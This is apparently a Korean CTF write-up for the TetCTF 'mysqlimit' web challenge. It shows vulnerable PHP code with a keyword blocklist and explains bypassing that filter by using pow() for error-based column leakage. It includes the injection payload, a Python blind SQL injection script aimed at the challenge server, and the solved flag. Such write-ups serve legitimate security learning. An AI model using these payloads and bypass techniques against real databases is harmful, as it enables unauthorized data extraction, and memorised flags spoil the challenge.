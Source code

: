 ## mysqlimit [100pts]

```php
<!-- The Author of this challenge is so kind and handsome that he is giving you flag, just need to bypass his god-tier waf and grab it <3 -->

<?php 

include('dbconnect.php');

if(!isset($_GET["id"]))
{
    show_source(__FILE__);
}
else
{
    // filter all what i found on internet.... dunno why ｡ﾟ･（>﹏<）･ﾟ｡
    if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) 
    {
        die('<img src="https://i.imgur.com/C42ET4u.gif" />'); 
    }
    else
    {
        // prevent sql injection
        $id = mysqli_real_escape_string($conn, $_GET["id"]);

        $query = "select * from flag_here_hihi where id=".$id;
        $run_query = mysqli_query($conn,$query);

        if(!$run_query) {
            echo mysqli_error($conn);
        }
        else
        {    
            // I'm kidding, just the name of flag, not flag :(
            echo '<br>';
            $res = $run_query->fetch_array()[1];
            echo $res; 
        }
    }
}

?>
```
일단 preg_match() 함수를 이용해서 수 많은 키워드를 필터링하고 있는 것을 볼 수 있습니다. 그리고 id 값이 1일때, 2일때의 출력값이 다르므로 Blind Based SQL Injection을 이용해 `flag`를 뽑아야겠다 생각이 들었습니다.

하지만 `culumn`이라는 키워드가 필터링이 걸려 있어 `flag`가 들어있는 컬럼을 Blind Based SQL Injection을 이용해서 뽑아올 수 없을 거 같다는 생각이 들었습니다. 왜냐하면 `information_schema.columns`라는 메타 테이블에서 `column_name`을 조회해야 하는데 필터링에 때문에 불가능하기 때문입니다.

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%206.51.35.png?raw=true)<br>
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%206.56.37.png?raw=true)

그러다가 N1 CTF에서 `exp()` 함수를 이용해서 Error Based Blind SQL Injection을 이용한 적이 있어서 위와 같이 MySQL의 `exp()`함수를 이용해서 `Overflow`를 일으켜 에러에 내가 원하는 값(Column Name)을 포함시키는 방식으로 해결하려 했지만 `exp()` 함수를 필터링하고 있었습니다. 아마 이 방법을 못 쓰게 방지한 거 같습니다. 그래서 그냥 새해니 쉴려고 접고, 롤을 했었습니다. 그러다 오늘 아침에 다시 확인을 해보니 `exp()` 함수 대신 `pow()` 함수를 이용해도 잘 되는 것을 확인할 수 있었습니다.

![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%207.01.29.png?raw=true)

```sql
pow(~(select id from (select * from flag_here_hihi limit 0,1) as id),9999)
```
그래서 위 페이로드를 id 값으로 넘겨주니 에러에 컬럼 이름들이 포함되어 있는 것을 확인할 수 있었고, `t_fl4g_v3lue_su`라는 컬럼이 존재하는 것을 알 수 있었습니다.  이제 해당 컬럼의 값을 Blind Based SQL Injection을 이용해서 뽑아내면 GG

```python
import requests

url = "http://45.77.255.164/?id="
flag_len, flag = 0, ""

def Flag_len():
	global flag_len
	for i in range(100):
		payload = "length(t_fl4g_v3lue_su)in({})".format(i)
		URL = url + payload
		res = requests.get(URL)
		if "handsome_flag" in res.text:
			flag_len = i
			print("[+] Flag Length is {}".format(i))
			break

def Flag():
	global flag
	for i in range(1, flag_len + 1):
		for j in range(35, 126):
			payload = "ascii(right(left(t_fl4g_v3lue_su,{}),1))in({})".format(i, j)
			URL = url + payload
			res = requests.get(URL)
			if "handsome_flag" in res.text:
				flag += chr(j)
				break
	print("Flag is {}".format(flag))

if __name__ == '__main__':
	print("[+] Exploitation ...")
	Flag_len()
	Flag()
```
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202021-01-03%20오후%208.20.53.png?raw=true)

위와 같이 익스플로잇 코드를 작성하고 돌려주니 flag가 잘 나오는 것을 볼 수 있습니다.

```
TetCTF{_W3LlLlLlll_Pl44yYyYyyYY_<3_vina_*100*28904961445554#}
```

---
